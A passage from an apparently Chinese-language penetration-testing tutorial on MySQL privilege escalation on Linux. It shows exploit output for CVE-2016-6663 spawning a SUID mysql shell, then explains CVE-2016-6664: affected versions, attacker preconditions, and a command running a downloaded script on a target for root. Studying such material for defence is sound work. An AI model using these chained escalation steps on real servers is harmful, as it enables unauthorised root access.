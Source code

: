 ```
[+] Copying bash into the mysql_suid_shell table. After the exploitation the following file/table will be assigned SUID and executable bits : 
-rw-rw---- 1 mysql www-data 1037528 Nov  1 02:33 /tmp/mysql_privesc_exploit/mysql_suid_shell.MYD

[+] Entering the race loop... Hang in there...
[+] Bingo! Race won (took 5 tries) ! Check out the mysql SUID shell: 
-rwsrwxrwx 1 mysql www-data 1037528 Nov  1 02:33 /tmp/mysql_privesc_exploit/mysql_suid_shell.MYD

[+] Spawning the mysql SUID shell now... 
    Remember that from there you can gain root with vuln CVE-2016-6662 or CVE-2016-6664 :)

mysql_suid_shell.MYD-4.3$ whoami
mysql
mysql_suid_shell.MYD-4.3$ id
uid=33(www-data) gid=33(www-data) euid=102(mysql) groups=33(www-data)
```

但我在本地测试失败了，总是报错说“cp: cannot create regular file  '/tmp/mysql_privesc_exploit/mysql_suid_shell.MYD': Permission  denied”，有知道原因的大佬还请写在评论里告诉我。

### D.3 CVE-2016-6664（可将mysql权限提升为root权限）

该漏洞可以使mysql用户权限提升为系统root权限。

**该漏洞影响的版本如下：**

MySQL ：

- <= 5.5.51
- <= 5.6.32
- <= 5.7.14

**漏洞利用条件：**

- 攻击者已经获取到目标服务器的webshell权限。
- 可以通过反弹shell的方法获得目标主机的交互环境。
- 已经通过CVE-2016-6663等方式获取到系统mysql用户权限。
- 目标主机的MySQL版本在漏洞影响范围内。
- 目标主机配置必须是是基于文件的日志(默认配置)，也就是不能是syslog方式。执行`grep -r syslog /etc/mysql`没有任何结果既满足“基于文件的日志”要求。

该漏洞利用很简单，首先下载漏洞利用脚本 [mysql-chowned.sh](https://legalhackers.com/advisories/MySQL-Maria-Percona-RootPrivEsc-CVE-2016-6664-5617-Exploit.html)，将该脚本上传到目标主机并以系统mysql用户权限运行即可获取系统root权限：

```
./mysql-chowned.sh /var/log/mysql/error.log
```

**注意：**必须以mysql权限执行mysql-chowned.sh才能成功提为root，所以，该漏洞常常需要配合CVE-2016-6663。可以先利用CVE-2016-6663漏洞获取mysql权限的shell然后再执行mysql-chowned.sh。

> CVE-2016-6662、CVE-2016-6663、CVE-2016-6664这几个漏洞常常是配合起来利用的。

### D.4 udf提权

Linux下udf提权的情况基本没见到过，在windows提权再见吧。
